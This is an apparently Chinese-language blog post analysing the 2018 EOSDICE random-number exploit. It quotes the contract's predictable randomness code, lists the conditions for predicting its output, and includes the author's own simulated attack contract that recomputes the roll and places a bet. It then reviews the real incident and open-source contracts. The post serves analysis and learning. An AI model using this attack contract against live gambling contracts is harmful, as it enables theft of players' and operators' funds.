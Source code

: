 ```yaml
---
title: EOSDIEC 随机数被攻破
categories:
  - 区块链
date: 2018-11-04 08:49:35
tags:
---
```


## EOSDICE

![](http://ww1.sinaimg.cn/large/cfc08357gy1fwvqt03svej211i0c4jt4.jpg)

今天起床看到 EODICE随机数竟然被攻破了？

之前我还看过代码，觉得挺安全的，看来我还是太菜了

随机数代码如下 (来源于[github](https://github.com/loveblockchain/eosdice/blob/master/eosbocai2222.hpp))


```c++
    uint8_t random(account_name name, uint64_t game_id)
    {
        asset pool_eos = eosio::token(N(eosio.token)).get_balance(_self, symbol_type(S(4, EOS)).name());
        auto mixd = tapos_block_prefix() * tapos_block_num() + name + game_id - current_time() + pool_eos.amount;

        const char *mixedChar = reinterpret_cast<const char *>(&mixd);

        checksum256 result;
        sha256((char *)mixedChar, sizeof(mixedChar), &result);

        uint64_t random_num = *(uint64_t *)(&result.hash[0]) + *(uint64_t *)(&result.hash[8]) + *(uint64_t *)(&result.hash[16]) + *(uint64_t *)(&result.hash[24]);
        return (uint8_t)(random_num % 100 + 1);
    }
```
可以看到生成随机数 有几个特别的东西

1. game_id 这个是递增的，可以拿到
2. account_name 这个是玩家的用户名，可以拿到
3. pool_eos 这个是当前合约的余额，如果短时间没有人玩的话，是可以拿到固定的值的
4. tapos_block_prefix & tapos_block_num 这两个是区块内部的值，如果我用合约来攻击的话，可以拿到
5. current_time 当前时间戳(合约用了延时交易)

我当时看到这个合约的时候,其实有想过怎么攻击,但是发现变量比较多,应该比较难,攻击合约需要满足以下条件

1. 需要短时间内没有人玩，要不然game_id 与 pool_eos都会变动，导致你攻击失败
2. 必须要把攻击合约与 出结果 的时间控制在一个区块内，要不然 tapos_block_prefix & tapos_block_num 这两个数会发生改变
3. 之前我一直觉得没办法攻击的是 时间，因为合约取的是未来时间的（其实发现了eos 延时合约运行的话,延时多久，时间往后加就行了。。。） 这点要是想明白了，说不定暴富的人就是我了...

我写的一个模拟攻击合约,不知道是不是因为本地测试的原因，tapos_block_prefix & tapos_block_num 一直对不上

其实本来想 直接从合约拿到他的 game_id的，但是一直没有成功...
```c++
void charity::hi(uint64_t game_id)

{
    asset pool_eos = eosio::token(N(eosio.token)).get_balance(N(eosbocai2222), symbol_type(S(4, EOS)).name());
    pool_eos.amount += 9985;
    uint64_t t = current_time();
    t += 1000000;
    auto mixd = tapos_block_prefix() * tapos_block_num() + _self + game_id - t + pool_eos.amount;
    const char *mixedChar = reinterpret_cast<const char *>(&mixd);

    checksum256 result;
    sha256((char *)mixedChar, sizeof(mixedChar), &result);

    uint64_t random_num = *(uint64_t *)(&result.hash[0]) + *(uint64_t *)(&result.hash[8]) + *(uint64_t *)(&result.hash[16]) + *(uint64_t *)(&result.hash[24]);
    print("random", random_num % 100 + 1);

    // return (uint8_t)(random_num % 100 + 1);
    asset payout = asset(10000, S(4, EOS));
    action(
        permission_level{_self, N(active)},
        N(eosio.token), N(transfer),
        std::make_tuple(_self, N(eosbocai2222), payout, std::string("dice-rrr-50-")))
        .send();
}
```

来一张测试截图

![](http://ww1.sinaimg.cn/large/cfc08357gy1fwvr9gr5g2j21aw0ictes.jpg)

可以看到除了 tapos_block_prefix & tapos_block_num 这两个不一样的话，其他的都一样的，

tapos_block_num 应该是每次+1,tapos_block_prefix 不知道生成规则，但是如果在一个区块内，应该是能拿到相同的.

## 事件回顾

根据官方给出的账号，我找到了黑客的攻击截图

![](http://ww1.sinaimg.cn/large/cfc08357gy1fwvriwhyucj21rw0yajxj.jpg)

![](http://ww1.sinaimg.cn/large/cfc08357gy1fwvrehi0zmj21g40zmjwx.jpg)


![](http://ww1.sinaimg.cn/large/cfc08357gy1fwvrkwvmugj22a20gw423.jpg)

不知道黑客代码怎么写的，他现在已经把合约换掉了...并且吧钱转到了交易所

根据官方所说，他们有对合约自动检测工具，导致被发现疑似黑客事件，立马把钱转走了.

这一点还是值得表扬的，说明团队实力还是有的。（希望可以开源，这样的话，其他的dice被攻击了也不至于损失那么惨）
![自动转账截图](http://ww1.sinaimg.cn/large/cfc08357gy1fwvru0n2g3j20tc06s0t8.jpg)

好像公告发布的也比较早，不知道是不是 自动检测功能能把人call醒（哈哈哈）

## 总结与反思

![](http://ww1.sinaimg.cn/large/cfc08357gy1fwvrwv3i17j20iw0bkgn4.jpg)

当被攻击后，有网友在官方群发了这样的一句话...

让我想起一个笑话

>A: 为什么你玩DApp？
    B: 因为开源透明代码可见，更公平
    A：最近玩什么呢
    B：EOS上的菠菜
    A：开源了么？
    B：没有

我一直觉得 区块链合约肯定要开源，要不然和其他的有啥区别呢?

我个人为啥投了这个游戏呢？是因为这个游戏开源，符合我理想中的区块链游戏，不会发生黑我的情况...

本以为他做大了，能给整个社区起一个带头作用，告诉大家，开源合约也没事情的，区块链游戏就是需要开源！

但是还好，损失不是很大。

最后借用老猫的一张图
![](http://ww1.sinaimg.cn/large/cfc08357gy1fwvs1n7542j20u02bc4qp.jpg)





